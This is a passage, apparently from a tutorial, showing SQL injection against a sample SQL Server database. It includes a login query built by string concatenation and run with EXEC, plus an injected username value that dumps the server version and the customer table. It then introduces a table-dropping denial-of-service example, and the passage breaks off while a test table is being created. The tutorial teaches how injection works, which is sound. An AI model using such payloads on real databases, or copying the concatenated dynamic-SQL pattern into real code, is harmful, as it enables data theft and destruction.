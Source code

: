 ```SQL
DECLARE @UserName NVARCHAR(255)
        ,@Password NVARCHAR(255)
		,@SQL NVARCHAR(1000)
SET @UserName = '''Lily Code'' SELECT @@Version AS SqlServerVersion; SELECT * FROM Sales.Customers;--'
SET @Password = '''Doesnt matter'''
SET @SQL = 'SELECT * 
			FROM Application.People AS P
			WHERE P.FullName = ' + @UserName + ' AND P.Password = ' + @Password
PRINT @SQL
EXEC(@SQL)
```
## Example 4 - Dropping Objects

The exploits of the hacker so far have been focused on phishing style attacks, trying to retrieve data. It is however possible to cause a denial of service style attack by dropping tables or changing data. This could then make it impossible for the application to function or users to login.

The first script below will setup a new customer table \[Sales\].\[Customers\_SQLI\_Example\] which is just for testing the following command.

```SQL
DROP TABLE IF EXISTS [Sales].[Customers_SQLI_Example]
GO
CREATE TABLE [Sales].[Customers_SQLI_Example](
	[CustomerID] [int] NOT NULL,
	[CustomerName] [nvarchar](100) NOT NULL,
	[BillToCustomerID] [int] NOT NULL,
	[CustomerCategoryID] [int] NOT NULL,
	[BuyingGroupID] [int] NULL,
	[PrimaryContactPersonID] [int] NOT NULL,
	[AlternateContactPersonID] [int] NULL,
	[DeliveryMethodID] [int] NOT NULL,
	[DeliveryCityID] [int] NOT NULL,
	[PostalCityID] [int] NOT NULL,
	[CreditLimit] [decimal](18, 2) NULL,
	[AccountOpenedDate] [date] NOT NULL,
	[StandardDiscountPercentage] [decimal](18, 3) NOT NULL,
	[IsStatementSent] [bit] NOT NULL,
	[IsOnCreditHold] [bit] NOT NULL,
	[PaymentDays] [int] NOT NULL,
	[PhoneNumber] [nvarchar](20) NOT NULL,
	[FaxNumber] [nvarchar](20) NOT NULL,
	[DeliveryRun] [nvarchar](5) NULL,
	[RunPosition] [nvarchar](5) NULL,
	[WebsiteURL] [nvarchar](256) NOT NULL,
	[DeliveryAddressLine1] [nvarchar](60) NOT NULL,
	[DeliveryAddressLine2] [nvarchar](60) NULL,
	[DeliveryPostalCode] [nvarchar](10) NOT NULL,
	[DeliveryLocation] [geography] NULL,
	[PostalAddressLine1] [nvarchar](60) NOT NULL,
	[PostalAddressLine2] [nvarchar](60) NULL,
	[PostalPostalCode] [nvarchar](10) NOT NULL,
	[LastEditedBy] [int] NOT NULL,
	[ValidFrom] [datetime2](7) NOT NULL,
	[ValidTo] [datetime2](7) NOT NULL,
 CONSTRAINT [PK_Sales_Customers_SQLI_Example] PRIMARY KEY CLUSTERED 
(
	[CustomerID] ASC
)WITH (PAD_INDEX = OFF, STATISTICS_NORECOMPUTE = OFF, IGNORE_DUP_KEY = OFF, ALLOW_ROW_LOCKS = ON, ALLOW_PAGE_LOCKS = ON, OPTIMIZE_FOR_SEQUENTIAL_KEY = OFF) ON [USERDATA],
 CONSTRAINT [UQ_Sales_Customers_SQLI_Example_CustomerName] UNIQUE NONCLUSTERED 
(
```